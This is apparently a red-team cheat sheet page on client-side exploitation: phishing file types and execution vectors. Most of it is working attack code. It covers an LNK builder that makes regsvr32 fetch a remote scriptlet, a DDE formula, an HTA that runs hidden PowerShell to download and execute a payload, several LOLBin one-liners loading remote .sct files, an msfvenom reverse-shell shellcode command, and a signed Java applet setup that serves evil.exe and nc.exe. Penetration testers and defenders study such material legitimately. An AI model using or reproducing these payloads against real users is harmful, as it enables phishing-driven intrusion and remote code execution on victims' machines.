 ```yaml
---
title: Client Side
category: Exploitation
order: 1
---
```


> **Phishing**

* [My Phishing Tool](https://github.com/BinaryExile/Scripts/tree/master/Phishing)
* File Types:  .LNK, VBS, JS, URL, HTA, .EXE, ClickOnce, .scr
* Office Documents: OLE + executable file type, Macro docs, DDE

> **Execution Vectors**

{% highlight bash %}
#Using LNK Files
$object = new-object -COM WScript.Shell
$lnk = $object.CreateShortcut("MyLNK.lnk")
$lnk.WindowSyle = 7
$lnk.TargetPath = "%windir%\System32\regsvr32.exe"
$lnk.IconLocation = "C:\Program Files\Internet Explorer\iexplore.exe,1"
$lnk.Arguments = "/s /n /u /i:http://payload.com/malware.sct scrobj.dll"
$lnk.Save()

#Using DDE
=cscript|' /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://goo.gl/ksuyDR '!A0

#HTA File
<script language="VBScript">
  Set objSWbemLocator = createObject("WbemScripting.SWbemLocator")
  Set objServices = objSWbemLocator.ConnectServer(".","\root\cimv2")
  set objProcess = objServices.Get("Win32_Process")
  objProcess.Create("powershell.exe -w hidden -command $wc = New-Object System.Net.Webclient;
  $wc.Headers.Add('User-Agent', 'Mozilla/5.0 (Windows NT 6.1; WOW64;Trident/7.0; AS; rv:11.0) Like Gecko');
  $wc.proxy = [System.Net.WebRequest]::DefaultWebProxy; $wc.proxy.credentials = [ System.Net.CredentialCache]::DefaultNetwrokCredentials; IEX ($wc.downloadstring('http://domain.com/payload'))")
  self.close
</script>

#COM Scriptlets
<scriptlet>
  <script language="VBScript">
    Set objSWbemLocator = CreateObject("WbemScripting.SWbemLocator")
    Set objServices = objSWbemLocator.ConnectServer(".", "\root\cimv2")
    Set objProcess = objServices.get("Win32_Process")
    objProcess.Create("calc.exe")
  </script>
</scriptlet>
  1. Regsvr32: regsvr32 /s /n /u /i:http://server/file.sct scrobj.dll
  2. HTML Application: rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("var%20CADObject;CADObject%20=%20GetObject(\"script:http://domain/script.sct\");window.close()");
  3. VBScript command injection: cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 "script:http://domain/script.sct"
  4. .NET: [Microsoft.VisualBasic.Interaction]::GetObject(“script:http://domain.com/hi.sct”)

  
{% endhighlight %}

* [ClickOnce](https://blog.netspi.com/all-you-need-is-one-a-clickonce-love-story/)
* [ClickOnce - Powerpick](https://www.sixdub.net/?p=555)
* [msbuild](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-msbuild-exe/)

> **Browser Exploit**

* Passive: Use https://extremetracking.com/?free to determine user agent
* Active: Call or Phishing
* Download exploit
* service apache2 start
* Generate new shellcode that's the same size or smaller:<br> <code> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f js_le -e generic/none </code>
* Pad as needed with <code> %u9090</code>

> **Signed Java App**

{% highlight bash %}
javac -source 1.7 -target 1.7 Java.java
echo “Permissions: all-permissions” > /root/manifest.txt
keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123
jar cvf Java.jar Java.class
cp Java.class SignedJava.jar /var/www/
echo '<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param name="1" value="http://10.11.0.5:80/evil.exe"></applet>' > /var/www/html/java.html
cp /usr/share/windows-binaries/nc.exe /var/www/nc.exe
{% endhighlight %}

* [java.java](https://raw.githubusercontent.com/BinaryExile/Scripts/master/exploits/client%20side/java.java)
